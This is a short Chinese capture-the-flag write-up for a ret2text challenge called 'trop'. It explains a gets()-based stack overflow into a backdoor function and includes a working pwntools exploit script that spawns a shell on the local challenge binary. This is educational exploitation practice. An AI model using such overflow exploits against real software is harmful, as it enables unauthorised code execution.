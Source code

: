 # trop

一个简单的ret2text题目

使用ida64打开附件后，发现存在后门函数，位置在`0x401196`

同时存在`gets`函数，可以进行栈溢出

将ret address改为后门函数即可获取flag。注意的点是需要使用`ret`进行抬栈，否则system("/bin/sh")无法执行。

```python
from pwn import *

context.arch = "amd64"

backdoor = 0x401196
ret_addr = 0x40101a

io = process("../file/trop")

payload = b"b"*0xa + b"woodwood" + p64(ret_addr) + p64(backdoor)
io.sendlineafter("chance!", payload)

io.interactive()
```